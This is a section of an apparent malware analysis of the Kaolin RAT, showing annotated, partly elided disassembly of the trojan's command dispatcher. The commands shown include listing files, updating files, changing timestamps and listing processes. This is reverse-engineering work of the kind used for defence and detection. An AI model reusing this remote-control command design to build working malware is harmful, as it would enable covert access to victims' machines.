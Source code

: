 ## 6. Command Handling in Kaolin RAT

The Kaolin RAT supports various commands. Here's the assembly code for the command dispatcher:

```assembly
.text:00407D00 ProcessCommand proc near
.text:00407D00    push    ebp                     ; Save base pointer
.text:00407D01    mov     ebp, esp                ; Set up stack frame
.text:00407D03    sub     esp, 10h                ; Allocate 16 bytes on stack
.text:00407D06    push    ebx                     ; Save registers
.text:00407D07    push    esi
.text:00407D08    push    edi
.text:00407D09    mov     esi, [ebp+arg_0]        ; esi = command data
.text:00407D0C    mov     edi, [ebp+arg_4]        ; edi = command size
.text:00407D0F    xor     eax, eax                ; eax = 0
.text:00407D11    mov     [ebp+var_4], eax        ; Initialize result to 0
.text:00407D14    cmp     edi, 4                  ; Check if command size >= 4
.text:00407D17    jb      loc_407E90              ; If too small, exit
.text:00407D1D    mov     eax, [esi]              ; eax = command ID (first 4 bytes)
.text:00407D1F    cmp     eax, 1                  ; Command 1: Update sleep interval
.text:00407D22    jz      loc_407D50
.text:00407D28    cmp     eax, 2                  ; Command 2: List files
.text:00407D2B    jz      loc_407D70
.text:00407D31    cmp     eax, 3                  ; Command 3: Update file
.text:00407D34    jz      loc_407D90
.text:00407D3A    cmp     eax, 4                  ; Command 4: Change timestamp
.text:00407D3D    jz      loc_407DB0
.text:00407D43    cmp     eax, 5                  ; Command 5: List processes
.text:00407D46    jz      loc_407DD0
    ; ... more command checks ...
.text:00407D50 loc_407D50:                        ; Command 1: Update sleep interval
.text:00407D50    cmp     edi, 8                  ; Check if command has enough data
.text:00407D53    jb      loc_407E90              ; If not enough data, exit
.text:00407D59    mov     eax, [esi+4]            ; eax = new sleep interval
.text:00407D5C    mov     [g_SleepInterval], eax  ; Update global sleep interval
.text:00407D61    mov     eax, 1                  ; Set result to success
.text:00407D66    mov     [ebp+var_4], eax
.text:00407D69    jmp     loc_407E90              ; Exit
.text:00407D70 loc_407D70:                        ; Command 2: List files
.text:00407D70    lea     eax, [esi+4]            ; eax = folder path (command data + 4)
.text:00407D73    push    eax                     ; Push folder path
.text:00407D74    call    ListFiles               ; Call ListFiles function
.text:00407D79    add     esp, 4                  ; Clean up stack
.text:00407D7C    mov     [ebp+var_4], eax        ; Store result
.text:00407D7F    test    eax, eax                ; Check if function succeeded
.text:00407D81    jz      loc_407E90              ; If failed, exit
.text:00407D87    mov     eax, 1                  ; Set result to success
.text:00407D8C    mov     [ebp+var_4], eax
.text:00407D8F    jmp     loc_407E90              ; Exit
    ; ... more command handlers ...
.text:00407E90 loc_407E90:                        ; Exit point
.text:00407E90    mov     eax, [ebp+var_4]        ; Return result
.text:00407E93    pop     edi                     ; Restore registers
.text:00407E94    pop     esi
.text:00407E95    pop     ebx
.text:00407E96    leave                           ; Clean up stack frame
.text:00407E97    retn                            ; Return
.text:00407E97 ProcessCommand endp
```
